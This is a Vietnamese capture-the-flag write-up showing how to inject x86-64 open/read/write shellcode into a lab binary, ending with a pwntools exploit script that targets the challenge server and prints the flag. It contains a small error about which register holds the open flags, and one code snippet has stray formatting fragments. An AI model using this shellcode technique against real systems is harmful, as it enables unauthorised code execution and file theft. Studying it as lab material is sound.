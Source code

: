# **Shellcode - PWN CTF Challenge**

### ***Description***
---

> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Background and Ideas***
---

Đầu tiên ta kiểm tra được đây là file ELF 64-bit, chỉ được bật flag `PIE`. Nhận thấy `NX` đang tắt nên khả năng ta có thể chèn shellcode.

![checkfile](images/checkfile.png)

Thực thi thử chương trình thì chương trình cho phép nhập lệnh để đọc flag tại file `PhaPhaKhongCoDon.txt` nhưng giới hạn chỉ sử dụng các hàm `open`, `read`, `write`.

![test](images/test.png)

Từ đó, ta có thể hiểu nhiệm vụ sẽ là viết 1 đoạn shellcode có chức năng `open` file `PhaPhaKhongCoDon.txt` rồi `read` nội dung file vào 1 buffer và cuối cùng là `write` nó ra màn hình.

Đây là một [bài](https://drx.home.blog/2019/04/03/pwnable-tw-orw/) có ý tưởng hoàn toàn tương tự nhưng ở kiến trúc 32-bit. Dựa vào đó ta có thể tự viết đoạn mã assembly ở kiến trúc 64-bit.

Ta sẽ gọi các hàm `sys_open()`, `sys_read()`, `sys_write()` lần lượt theo ý tưởng ở trên. Sử dụng [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) này ta có thể hiểu được cấu trúc khi gọi các hàm trên.

![syscall](images/syscall_syntax.png)

### ***Exploitation***
---

Đầu tiên là thực hiện push tên file flag `PhaPhaKhongCoDon.txt` vào stack. Vì đây là kiến trúc 64-bit nên mỗi lần chỉ push được 8 bytes nên ta sẽ push 3 lần. Khi đó, `PhaPhaKhongCoDon.txt` sẽ nằm tại rsp.

```js
mov 	rbx, %d' % u64(b'.txt\x00\x00\x00\x00')
push 	rbx
mov 	rbx, %d' % u64(b'ongCoDon')
push 	rbx
mov 	rbx, %d' % u64(b'PhaPhaKh')
push 	rbx
```

Ở bước gọi `sys_open()`, ta set các thanh ghi:
- `rdi` sẽ lấy tên file từ `rsp`
- `rdx` = 0 để mở file với mode O_RDONLY (Khác 0 sẽ không xem được flag trên server do server set quyền chỉ cho phép đọc)
- `rsi` không cần quan tâm, ta set bằng 0. 
- `rax` sẽ là `0x2` (syscall number)

```js
mov	rdi, rsp		
mov	rsi, 0
mov 	rdx, 0	
mov	rax, 2	
syscall
```
Ở bước gọi `sys_read()`, ta set các thanh ghi:
- `rdi`: file descriptor của file cần mở. Chính là giá trị trả về từ hàm `sys_open()` bên trên đã được lưu vào thanh ghi rax. Nên `rdi = rax`.
- `rsi` lưu địa chỉ buffer để đọc dữ liệu file vào. Phải chắc chắn là thanh ghi có địa chỉ nên ở đây ta chọn luôn `rsp`.
- `rdx` là số byte đọc từ file, set 0x100 cho đủ lớn 
- `rax` sẽ là `0x0` (syscall number)

```js
mov	rdi, rax
mov	rsi, rsp
mov	rdx, 0x100
mov 	rax, 0
syscall
```
Ở bước gọi `sys_write()`, ta set các thanh ghi:
- `rdi`: set bằng 0x1 để output nội dung ra màn hình.
- `rsi` lưu địa chỉ buffer để ghi dữ liệu file ra, chính là `rsp` ở trên.
- `rdx` là số byte cần ghi, chính là giá trị trả về của `sys_read()` nên `rdx = rax`.
- `rax` sẽ là `0x1` (syscall number)

```js
mov	rdi, 1
mov	rsi, rsp
mov	rdx, rax
mov 	rax, 1
syscall
```
Dựa trên những phân tích trên, ta có mã khai thác hoàn chỉnh để chèn shellcode vào chương trình.

```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```
Thực thi và ta có flaggg!

![flag](images/flag.png)

> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**





